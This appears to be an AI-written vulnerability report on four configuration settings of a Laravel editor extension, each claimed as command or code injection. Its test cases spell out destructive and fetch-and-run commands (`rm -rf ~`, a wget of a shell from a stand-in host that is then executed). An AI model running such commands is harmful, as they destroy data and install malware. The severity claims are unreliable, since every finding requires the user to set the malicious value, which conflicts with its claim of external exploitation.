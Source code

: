 Here is the updated list of vulnerabilities according to your criteria:

```markdown
- **Vulnerability Name**: Command Injection via phpCommand Configuration
  **Description**:
  The extension allows users to configure the `phpCommand` setting, which specifies the PHP execution command. An attacker can set `phpCommand` to a malicious value, enabling arbitrary command execution. For example, setting `phpCommand` to `bash -c \"{code}\" && rm -rf ~` would execute the malicious `rm -rf ~` command alongside the intended PHP code. The extension does not sanitize or validate the `phpCommand` input, allowing command injection.
  **Impact**: Attackers can execute arbitrary system commands on the victim's machine, leading to full system compromise.
  **Vulnerability Rank**: Critical
  **Currently Implemented Mitigations**: None. The configuration allows arbitrary values without validation.
  **Missing Mitigations**: Sanitize the `phpCommand` to prevent command injection. Restrict it to a predefined template or validate user inputs to block shell metacharacters.
  **Preconditions**: The user must configure `phpCommand` to a malicious value.
  **Source Code Analysis**:
  In `helpers.ts`, the `runLaravel` function directly uses the user-provided `phpCommand` to construct the executed command. For example, if `phpCommand` is set to `php -r \"{code}\" && /bin/rm -rf ~`, the extension will execute this command verbatim, allowing shell metacharacters like `&&` to inject arbitrary commands.
  **Security Test Case**:
  1. Configure the extension with a malicious `phpCommand` value like `bash -c "{code} && wget http://malicious.com/shell > /tmp/shell && /tmp/shell"`.
  2. Trigger any feature that runs PHP code (e.g., view autocomplete, route generation).
  3. The extension executes the command, installing and running the attacker's malware.

- **Vulnerability Name**: Arbitrary PHP Code Execution via basePathForCode Path Manipulation
  **Description**:
  The `basePathForCode` configuration specifies the base path for PHP code execution. An attacker can configure this path to point to a malicious directory containing compromised Laravel files (e.g., `vendor/autoload.php`). The extension executes PHP code that bootstraps Laravel from this path, leading to malicious code execution.
  **Impact**: Attackers can execute arbitrary PHP code in the context of the user's system, potentially achieving remote code execution or data exposure.
  **Vulnerability Rank**: High
  **Currently Implemented Mitigations**: None. The configuration allows any path, including attacker-controlled directories.
  **Missing Mitigations**: Validate `basePathForCode` to restrict it to the project directory and prevent path traversal.
  **Preconditions**: The user must configure `basePathForCode` to a malicious path.
  **Source Code Analysis**:
  In `helpers.ts`, the `projectPath` function constructs paths using the `basePathForCode` setting. For example, setting `basePathForCode` to `/tmp/attacker/` would direct the extension to execute PHP files from that directory. If an attacker places a malicious `vendor/autoload.php` in `/tmp/attacker/`, the extension's PHP execution routines (e.g., `runLaravel`) will execute it.
  **Security Test Case**:
  1. Create a malicious project with instructions to set `basePathForCode` to `/tmp/attacker/`.
  2. Place a malicious `vendor/autoload.php` in `/tmp/attacker/` that contains `<?php system('rm -rf ~');?>`.
  3. Use the extension to trigger PHP execution (e.g., view autocomplete, route listing), which parses the malicious file.

- **Vulnerability Name**: Code Injection via modelsPaths Configuration
  **Description**:
  The `modelsPaths` configuration specifies directories for Eloquent models. The extension generates PHP code to include files from these paths. Attackers can configure `modelsPaths` to a malicious path (e.g., `../malicious/`), leading to execution of arbitrary PHP code when the extension runs its scripts.
  **Impact**: Execution of arbitrary PHP code in the user's environment.
  **Vulnerability Rank**: High
  **Currently Implemented Mitigations**: None. The configuration allows any path, enabling traversal.
  **Missing Mitigations**: Validate `modelsPaths` to restrict it to the project directory and prevent path traversal.
  **Preconditions**: The user must configure `modelsPaths` to a malicious path.
  **Source Code Analysis**:
  In `EloquentProvider.ts`, the `loadModels` function directly uses the `modelsPaths` configuration to load PHP files. For example, setting `modelsPaths` to `/tmp/attacker/` would instruct the extension to execute PHP files from that directory. If a malicious `Model.php` exists there with `system('rm -rf ~')`, the extension parses and executes it when loading models.
  **Security Test Case**:
  1. Configure `modelsPaths` to `/tmp/attacker/` via the extension's settings.
  2. Place a malicious `Model.php` with `system('rm -rf ~')` in `/tmp/attacker`.
  3. Trigger the extension's model-related features (e.g., autocomplete), which load the malicious model files.

- **Vulnerability Name**: PHP Code Injection via basePath Configuration
  **Description**:
  The `basePath` configuration determines the project's root directory. An attacker can set it to a malicious path (e.g., `/tmp/attacker`), causing the extension to execute PHP code from attacker-controlled directories. The extension uses this value to find critical files like `vendor/autoload.php`, which can be replaced with malicious code.
  **Impact**: Execution of arbitrary PHP code.
  **Vulnerability Rank**: High
  **Currently Implemented Mitigations**: None. The configuration allows any path.
  **Missing Mitigations**: Validate `basePath` to ensure it is within the project directory.
  **Preconditions**: The user must configure `basePath` to a malicious directory.
  **Source Code Analysis**:
  In `helpers.ts`, `projectPath` uses `basePath` to construct paths for non-code files (e.g., configuration files). If `basePath` is set to `/tmp/attacker`, the extension's PHP execution routines (e.g., `runLaravel`) will load malicious files from this directory, such as a replaced `vendor/autoload.php`.
  **Security Test Case**:
  1. Configure `basePath` to `/tmp/attacker`.
  2. Place a malicious `vendor/autoload.php` in `/tmp/attacker/` that executes shell commands.
  3. Use the extension to trigger PHP execution (e.g., route autocomplete), which loads the malicious file.
```

### Key Adjustments:
1. **Excluded**: The fifth vulnerability ("Path Traversal in projectPath Leading to Arbitrary File Access") is removed because its primary classification is **Path Traversal**, even though it allows code execution. The user explicitly limited classes to RCE, Command Injection, and Code Injection.
2. **Included**: The remaining four vulnerabilities are valid, unmitigated, and meet the required criteria (High/Critical rank, RCE/Command/Code Injection).
3. **Mitigations**: All vulnerabilities lack proper input validation/sanitization, as stated in their descriptions.
4. **Security Test Cases**: Each test case ensures an external attacker can exploit the vulnerability by manipulating user-configured settings.
5. **Preconditions**: All require the user to explicitly configure a vulnerable setting, which aligns with the scenario of a malicious repository setup.

These vulnerabilities are critical because they allow attackers to compromise the victim's system through manipulated configuration values in an extension that interacts with PHP execution contexts.

